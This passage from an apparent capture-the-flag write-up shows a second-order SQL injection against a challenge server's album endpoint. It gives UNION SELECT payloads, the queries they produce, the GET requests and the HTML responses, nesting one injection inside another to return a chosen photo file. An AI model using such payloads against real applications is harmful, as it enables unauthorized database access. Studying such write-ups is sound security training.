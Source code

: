 And of course, querying the endpoint returns no photos since this album does not exist:

```
GET /r3c0n_server_4fdk59/album?hash=fakehash'+UNION+SELECT+1337,+'my_hash',+'my_album_name'--+
```
```html
<div class="col-md-8 col-md-offset-2">
    <h1 class="text-center">my_album_name</h1>
    <div class="row">

        
    </div>
</div>
```

### 3. Adding Photos to Albums
What's an album without some nice photos?

Using the payload `fakehash' 
UNION SELECT "1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ", 'my_hash', 'my_album_name'-- ` we generate this query:

```sql
SELECT * FROM album WHERE hash = 'fakehash' 
UNION SELECT "1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ", 'my_hash', 'my_album_name'-- ';
```

Returning this result:

id | hash | name
--- | --- | ---
1337' UNION SELECT 0, 0, 'my_photo.jpg'--  | my_hash | my_album_name

And then, when the followup image fetch query runs, it will execute:

```sql
SELECT * FROM photo WHERE album_id = '1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ';
```

Returning:

album_id | id | photo
--- | --- | ---
0  | 0 | my_photo.jpg

Running it:
```
GET /r3c0n_server_4fdk59/album?hash=fakehash'+UNION+SELECT+"1337'+UNION+SELECT+0,+0,+'my_photo.jpg'--+",+'my_hash',+'my_album_name'--+ 
```
```html
<div class="col-md-8 col-md-offset-2">
    <h1 class="text-center">my_album_name</h1>
    <div class="row">

            <div class="col-md-4">
                <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL215X3Bob3RvLmpwZyIsImF1dGgiOiJlODgyNzNkZDM0YmRkMmRlN2M2MGRkNjQ1MGVhZDg4ZiJ9">
            </div>
        
    </div>
</div>
```
